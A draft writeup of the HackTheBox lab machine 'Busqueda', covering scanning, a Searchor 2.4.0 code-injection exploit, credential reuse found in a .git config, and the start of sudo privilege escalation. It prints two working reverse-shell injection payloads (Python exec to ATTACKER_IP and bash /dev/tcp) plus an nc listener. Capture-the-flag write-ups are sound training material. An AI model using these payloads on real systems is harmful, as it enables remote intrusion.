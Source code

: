 ```yaml
---
title: Busqueda
published: 2024-08-05
description: Writeup for an easy labeled linux based HTB machine named Busqueda.
# image: ./devvortex/devvortex_pwned.jpg
tags: [HackTheBox, Linux, Machines]
category: Writeups
draft: true
---
```


# <center> Busqueda </center>

## Quick notes:
- easy linux based machine

## Scanning and enumeration

### whatweb
```bash
┌──(cyb3ritic㉿kali)-[~/Downloads]
└─$ whatweb 10.10.11.208                        
http://10.10.11.208 [302 Found] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.10.11.208], RedirectLocation[http://searcher.htb/], Title[302 Found]
ERROR Opening: http://searcher.htb/ - no address for searcher.htb
```
- host: http://searcher.htb

### nmap scan
```bash
┌──(cyb3ritic㉿kali)-[~/Downloads]
└─$ sudo nmap -sC -sV 10.10.11.208             
Nmap scan report for 10.10.11.208
Host is up (0.0019s latency).
Not shown: 837 filtered tcp ports (no-response), 161 closed tcp ports (reset)

PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)

80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://searcher.htb/
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### feroxbuster and other enumeration
- No useful information

## searching andd exploiting vulnerability

### web interface
![web interface](./busqueda/web_interface.png)

- input field
- powered by searchor 2.4.0

### script kidde method

- [poc of searchor 2.4.0 on google](https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-)
    - `', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#`

    - searching the above prompt will get u a revese shell and can grab user.txt.

- `la -al` -> .git folder.
- .git/config reveals a url `http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git`
    - we have creds `cody:jh1usoih2bkjaspwe92`
    - we got a domain name `gitea.searcher.htb`

- password for svc user is same as that of cody.
- `sudo -l` reveals

### Playing with input field (alternative method) 
- payload: 
```python
,),__import__('os').system('bash -c "bash -i >& /dev/tcp/10.10.14.41/1234 0>&1"')#
```

- `nc -lnvp 1234`

- get reverse shell on target machine. `cat ~/user.txt` gives user flag.

<hr>

## Privesc enumeration

- `ls -al` -> gind .git -> `cd .git` -> `ls` -> config file -> `cat config`
url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git

May be ssh id ?? cody:jh1usoih2bkjaspwe92

<hr>
- target 1 : ssh login -> cody:jh1usoih2bkjaspwe92 ==> permission denied
- target 2 : ssh login -> svc:jh1usoih2bkjaspwe92  ==> logged in
    - thus creds for svc is svc:jh1usoih2bkjaspwe92

<hr>

- `sudo -l` -> (root) /usr/bin/python3 /opt/scripts/system-checkup.py *

- `sudo pyhton3 /opt/sccripts/system-checkup.py *`
